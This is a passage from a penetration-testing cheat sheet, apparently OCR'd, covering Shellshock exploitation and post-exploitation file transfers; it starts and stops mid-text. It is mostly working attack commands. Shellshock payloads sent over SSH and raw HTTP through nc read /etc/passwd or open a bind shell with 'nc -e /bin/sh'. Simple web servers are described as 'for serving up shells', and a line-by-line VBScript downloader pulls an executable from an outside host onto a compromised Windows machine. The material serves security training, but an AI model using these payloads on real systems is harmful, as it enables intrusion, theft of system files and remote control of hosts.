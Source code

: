     -   git clone https://github.com/nccgroup/shocker

    `./shocker.py -H TARGET --command "/bin/cat /etc/passwd" -c /cgi-bin/status --verbose`

    -   Shell Shock SSH Forced Command
        Check for forced command by enabling all debug output with ssh

              ssh -vvv
              ssh -i noob noob@$ip '() { :;}; /bin/bash'

    -   cat file (view file contents)

              echo -e "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () {:;}; echo \\$(</etc/passwd)\\r\\nHost:vulnerable\\r\\nConnection: close\\r\\n\\r\\n" | nc TARGET 80

    -   Shell Shock run bind shell

             echo -e "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () {:;}; /usr/bin/nc -l -p 9999 -e /bin/sh\\r\\nHost:vulnerable\\r\\nConnection: close\\r\\n\\r\\n" | nc TARGET 80

File Transfers
============================================================================================================

-   Post exploitation refers to the actions performed by an attacker,
    once some level of control has been gained on his target.

-   Simple Local Web Servers

    -   Run a basic http server, great for serving up shells etc
        python -m SimpleHTTPServer 80

    -   Run a basic Python3 http server, great for serving up shells
        etc
        python3 -m http.server

    -   Run a ruby webrick basic http server
        ruby -rwebrick -e "WEBrick::HTTPServer.new
        (:Port => 80, :DocumentRoot => Dir.pwd).start"

    -   Run a basic PHP http server
        php -S $ip:80

-   Creating a wget VB Script on Windows:
    [*https://github.com/erik1o6/oscp/blob/master/wget-vbs-win.txt*](https://github.com/erik1o6/oscp/blob/master/wget-vbs-win.txt)

-   Windows file transfer script that can be pasted to the command line.  File transfers to a Windows machine can be tricky without a Meterpreter shell.  The following script can be copied and pasted into a basic windows reverse and used to transfer files from a web server (the timeout 1 commands are required after each new line):

         echo Set args = Wscript.Arguments  >> webdl.vbs
         timeout 1
         echo Url = "http://1.1.1.1/windows-privesc-check2.exe"  >> webdl.vbs
         timeout 1
         echo dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")  >> webdl.vbs
         timeout 1
         echo dim bStrm: Set bStrm = createobject("Adodb.Stream")  >> webdl.vbs
         timeout 1
         echo xHttp.Open "GET", Url, False  >> webdl.vbs
         timeout 1
         echo xHttp.Send  >> webdl.vbs
         timeout 1
         echo with bStrm      >> webdl.vbs
         timeout 1
         echo 	.type = 1 '      >> webdl.vbs
         timeout 1
         echo 	.open      >> webdl.vbs
         timeout 1
         echo 	.write xHttp.responseBody      >> webdl.vbs